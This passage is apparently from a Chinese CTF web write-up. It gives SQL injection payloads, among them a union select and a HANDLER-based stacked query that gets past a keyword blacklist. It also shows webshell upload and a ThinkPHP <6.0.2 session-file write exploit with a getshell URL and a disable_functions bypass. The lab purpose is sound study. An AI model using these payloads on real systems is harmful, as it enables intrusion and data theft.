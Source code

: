 ```
#查字段

' or 1=1 union select 1,group_concat(flaaag),3,4,5 from flag#
#查内容
```

### equpload

这个题也很简单,直接上传一句话getshell,读取根目录下面的flag

(没有任何过滤?不知道是不是主办方的失误,无从得知)

### blacklist

过滤了set|prepare|alter|rename|select|update|delete|drop|insert|where|

但是mysql还有一种查询姿势

```
1';show tables;
#查表
1';desc FlagHere;
#查字段
1';handler FlagHere open;handler FlagHere read first;handler FlagHere close;#
#读取内容
```

### easy_thinking

这个利用的是ThinkPHP<6.0.2的一个任意文件内容写入覆盖漏洞

可以通过控制cookies中的PHPSESSIONID字段内容来达到控制session目录下生成的文件名

详情可以查看

[ThinkPHP<6.0.2任意文件内容写入/覆盖](https://zhzhdoai.github.io/2020/01/25/ThinkPHP-6-0-2任意文件内容写入-覆盖/)

网站目录下有[www.zip.下载下来查看控制器文件,发现session文件内容存储的是查询页的key值](http://www.zip.下载下来查看控制器文件,发现session文件内容存储的是查询页的key值/)

[![mark](https://blogjpg.yanmy.top/blog/20200224/ukzBO4Dx1y7G.png?imageslim)](https://blogjpg.yanmy.top/blog/20200224/ukzBO4Dx1y7G.png?imageslim)

注册,登录,构造查询页面的key为一句话木马,cookies下面的PHPSESSIONID字段PHPSESSID=1234567890123456789012345678.php

然后访问用蚁剑链接

```
http://123.57.212.112:7891/runtime/session/sess_1234567890123456789012345678.php
```

getshell

查看php.ini是禁用了系统执行函数的,这时需要使用蚁剑的绕过disable_function的插件选择模式进行链接,成功绕过disable_function后即可执行根目录下面readflag

[![mark](https://blogjpg.yanmy.top/blog/20200224/r28i0E1LN2MG.png?imageslim)](https://blogjpg.yanmy.top/blog/20200224/r28i0E1LN2MG.png?imageslim)

### flaskapp
